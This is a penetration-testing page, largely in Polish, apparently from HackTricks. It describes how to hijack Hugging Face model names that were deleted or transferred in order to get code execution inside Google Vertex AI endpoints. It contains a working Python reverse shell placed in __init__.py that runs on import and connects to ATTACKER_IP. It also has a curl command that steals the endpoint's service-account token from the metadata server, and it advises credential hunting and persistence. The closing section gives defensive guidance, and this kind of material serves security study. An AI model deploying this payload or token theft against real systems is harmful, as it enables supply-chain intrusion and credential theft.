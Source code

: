 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenariusz

- Vertex AI Model Garden umożliwia bezpośrednie wdrażanie wielu modeli Hugging Face (HF).
- Identyfikatory modeli HF to Author/ModelName. Jeśli autor/org na HF zostanie usunięty, ta sama nazwa autora może zostać ponownie zarejestrowana przez dowolną osobę. Atakujący mogą wtedy utworzyć repo z tym samym ModelName pod legacy path.
- Pipelines, SDKs lub cloud catalogs, które pobierają zasoby tylko po nazwie (bez pinning/integrity), pobiorą repo kontrolowane przez atakującego. Gdy model zostanie wdrożony, loader code z tego repo może wykonać się wewnątrz kontenera endpointa Vertex AI, dając RCE z uprawnieniami endpointa.

Dwa typowe przypadki przejęcia na HF:
- Usunięcie własności: stara ścieżka zwraca 404 aż do momentu, gdy ktoś ponownie zarejestruje autora i opublikuje ten sam ModelName.
- Transfer własności: HF zwraca 307 redirecty ze starego Author/ModelName do nowego autora. Jeśli stary autor zostanie później usunięty i ponownie zarejestrowany przez atakującego, łańcuch przekierowań zostaje przerwany i repo atakującego odpowiada pod legacy path.

## Identyfikacja powtórnie używalnych przestrzeni nazw (HF)

- Stary autor usunięty: strona autora zwraca 404; ścieżka modelu może zwracać 404 aż do przejęcia.
- Przeniesione modele: stara ścieżka modelu zwraca 307 do nowego właściciela dopóki stary autor istnieje. Jeśli stary autor zostanie później usunięty i ponownie zarejestrowany, legacy path zostanie rozwiązany na repo atakującego.

Szybkie sprawdzenia przy użyciu curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Przebieg ataku end-to-end przeciwko Vertex AI

1) Odkryj wielokrotnego użytku przestrzenie nazw modeli, które Model Garden pokazuje jako możliwe do wdrożenia:
- Znajdź modele HF w Vertex AI Model Garden, które nadal pokazują się jako „verified deployable”.
- Zweryfikuj na HF, czy oryginalny autor został usunięty lub czy model został przeniesiony, a stary autor później usunięty.

2) Ponownie zarejestruj usuniętego autora na HF i odtwórz tę samą ModelName.

3) Opublikuj złośliwe repo. Dołącz kod, który wykona się przy ładowaniu modelu. Przykłady kodu, które często wykonują się podczas ładowania modelu na HF:
- Efekty uboczne w pliku __init__.py repozytorium
- Niestandardowe pliki modeling_*.py lub kod przetwarzający odwoływany przez config/auto_map
- Ścieżki kodu wymagające trust_remote_code=True w pipelines Transformers

4) Deployment Vertex AI korzystający ze starego Author/ModelName teraz pobiera repo atakującego. Loader wykonuje się wewnątrz kontenera endpointu Vertex AI.

5) payload uzyskuje dostęp z środowiska endpointu (RCE) z uprawnieniami endpointu.

Przykładowy fragment payload, wykonywany przy imporcie (tylko do demonstracji):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notatki
- Rzeczywiste loadery różnią się. Wiele integracji Vertex AI HF klonuje i importuje moduły z repo wskazywane w konfiguracji modelu (np. auto_map), co może wywołać wykonanie kodu. W niektórych przypadkach wymagane jest trust_remote_code=True.
- Endpoint zazwyczaj działa w dedykowanym containerze o ograniczonym zasięgu, ale stanowi ważny initial foothold dla dostępu do danych i lateral movement w GCP.

## Wskazówki po eksploatacji (Vertex AI Endpoint)

Gdy kod działa wewnątrz endpoint container, rozważ:
- Przeprowadzenie enumeracji zmiennych środowiskowych i metadata w poszukiwaniu poświadczeń/tokenów
- Dostęp do dołączonego storage lub zamontowanych model artifacts
- Interakcję z Google APIs poprzez service account identity (Document AI, Storage, Pub/Sub, etc.)
- Utrzymanie persistence w model artifact, jeśli platforma ponownie pobiera repo

Wylicz instance metadata, jeśli są dostępne (zależne od containera):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Wskazówki obronne dla użytkowników Vertex AI

- Przypinaj modele do commitów w HF loaders, aby zapobiec cichej podmianie:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Replikuj zweryfikowane modele HF do zaufanego wewnętrznego repozytorium/artifact registry i wdrażaj je stamtąd.
- Ciągle skanuj repozytoria kodu i konfiguracje w poszukiwaniu na stałe zakodowanych Author/ModelName, które zostały usunięte/przeniesione; zaktualizuj do nowych namespace’ów lub przypnij do konkretnego commita.
- W Model Garden weryfikuj pochodzenie modelu i istnienie autora przed wdrożeniem.

## Heurystyki rozpoznawcze (HTTP)

- Usunięty author: author page 404; legacy model path 404 aż do takeover.
- Przeniesiony model: legacy path 307 do nowego autora, gdy stary autor nadal istnieje; jeśli stary autor zostanie później usunięty i ponownie zarejestrowany, legacy path serwuje zawartość atakującego.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Odnośniki krzyżowe

- Zobacz szerszą metodologię i uwagi dotyczące łańcucha dostaw:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referencje

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
